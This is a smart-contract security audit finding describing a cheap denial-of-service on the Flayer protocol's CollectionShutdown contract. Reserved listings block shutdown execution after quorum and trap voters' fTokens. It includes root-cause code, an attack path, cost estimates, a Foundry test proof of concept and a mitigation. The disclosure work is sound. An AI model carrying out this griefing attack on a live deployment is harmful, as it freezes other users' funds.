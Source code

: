 Tiny Plastic Hyena

Medium

# CollectionShutdown can be cheaply DOS'd once a quorum has been reached, trapping voters' fTokens in the contract

### Summary

The safety checks in execute() in CollectionShutdown allow a malicious actor to DOS the function for very little capital via creating a protected listing. If quorum has passed, this can entirely lock voter's fTokens in CollectionShutdown until the DOS passes.

### Root Cause

In the execute() function in CollectionShutdown.sol, there is a [line that ensures there are no active listings.](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L241) This makes sense with legitimate listings because it will prevent a user selling a grail from getting rugged by a shutdown, but in the case of a reserved listing, it allows someone with little capital to keep the collection stuck.

```solidity
    function execute(address _collection, uint[] calldata _tokenIds) public onlyOwner whenNotPaused {
        // Check that no listings currently exist
@>      if (_hasListings(_collection)) revert ListingsExist();
```

Additionally, users who cast their votes are not allowed to withdraw their tokens if a quorum has been reached.

```solidity
    function reclaimVote(address _collection) public whenNotPaused {
        // If the quorum has passed, then we can no longer reclaim as we are pending
        // an execution.
        CollectionShutdownParams storage params = _collectionParams[_collection];
@>      if (params.canExecute) revert ShutdownQuorumHasPassed();
```

### Internal pre-conditions

1. The protocol must have 4 or less NFTs in custody
2. Users must have started a vote and reached a quorum to shut down the collection

### External pre-conditions

_No response_

### Attack Path

1. The griefer creates a reserved listing with a small amount of capital
2. Users fTokens are stuck in the CollectionShutdown contract until the DOS passes

### Impact

Users who voted to liquidate an entire collection will have their fTokens stuck inside the contract for as long as the attacker is able to pay the small fee required to DOS the shutdown. It only costs 0.05 fTokens of initial capital to start, plus 0.01 fTokens of fees to DOS the collection for 2 weeks. This would freeze at least 2 fTokens (half the supply!) at an ongoing rate of ~0.005 fTokens per week.

This could be worked around by depositing a fifth NFT, cancelling the vote, and users reclaiming their votes, but that is a lot of capital and hassle compared to what the attacker has to do to throw a wrench in the works.

### PoC

The following code is just to demonstrate how long a small amount of capital hold up the contract.

Please copy and paste the following into ProtectedListings.t.sol:
```solidity
function test_DosShutdown() public {
        // Set the owner to one of our test users (Alice)
        address payable _owner = users[0];

        // Mint our token to the _owner
        erc721a.mint(_owner, 1);
        vm.startPrank(_owner);

        // put an NFT in the locker
        uint[] memory ids = new uint[](1);
        ids[0] = 1;
        erc721a.approve(address(locker), 1);
        locker.deposit(address(erc721a), ids);

        address payable doser = users[1];

        // deal the DOSer a small amount of fTokens and start the DOS
        vm.startPrank(doser);
        deal(address(locker.collectionToken(address(erc721a))), doser, 0.06 ether);
        locker.collectionToken(address(erc721a)).approve(address(listings), 0.06 ether);
        listings.reserve(address(erc721a), 1, 0.06 ether);
        
        // let's see how long that relatively small amount of capital bricks the system
        // as long as the listing exists, it is impossible to call CollectionShutdown::execute()
        uint256 daysShutdown = 0;
        while (protectedListings.getProtectedListingHealth(address(erc721a), 1) > 0) {
            daysShutdown += 1;
            vm.warp(block.timestamp + (60 * 60 * 24));
        }

        // a 0.06 fToken investment (0.01 over the minimum) can DOS the shutdown function for 15 days
        assertEq(daysShutdown, 15);
    }
```

### Mitigation

Consider disallowing new Protected Listings when a quorum has been reached, and consider allowing users to reclaim votes more easily.